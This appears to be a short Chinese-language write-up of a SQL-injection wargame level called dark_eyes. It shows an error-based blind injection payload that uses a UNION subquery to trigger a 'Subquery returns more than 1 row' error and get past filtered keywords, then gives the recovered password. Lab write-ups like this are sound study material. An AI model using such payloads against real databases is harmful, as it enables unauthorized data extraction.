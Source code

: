 Q22_dark_eyes
===

這題過濾掉的東西可多了col、if、case、when、sleep、benchmark。
似乎可以用來判斷 True、False 的方法都被濾掉了...
頁面上的 Debug 頁面也變置換成空白頁面。

但還是可以透過 SELECT union 的方式來造成 ERROR。
```
https://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw='|| (select substr(pw,1,1)="5" union select false)%23
```

當 subser(pw,1,1)= "" 成立的時候便會執行 union select false 便造成意外:Subquery returns more than 1 row。
```SQL
(select substr(pw,1,1)="5" union select false)
```

腳本:
![](https://i.imgur.com/LlAzDZg.png)

結果:
![](https://i.imgur.com/Xye8Iqg.png)

Payload:
```
https://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c
```